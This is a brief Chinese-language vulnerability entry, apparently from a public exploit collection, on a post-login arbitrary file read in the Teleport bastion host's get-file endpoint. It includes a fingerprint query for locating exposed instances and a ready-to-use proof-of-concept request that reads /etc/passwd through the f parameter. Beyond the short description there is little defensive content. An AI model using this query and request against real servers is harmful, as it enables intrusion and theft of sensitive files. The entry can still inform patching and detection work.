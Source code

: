# Teleport堡垒机 get-file 后台任意文件读取漏洞

## 漏洞描述

Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

## 漏洞影响

Teleport Version <= 20220817

## 网络测绘

app="TELEPORT堡垒机"

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1660720653270-fcd22c8e-0df1-42ea-aa02-2c94e0770e76.png)

登录后使用POC验证

```php
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0
```

![img](../../../.vuepress/public/img/1661232312843-695b528d-23f9-4b57-b925-182f79977734.png)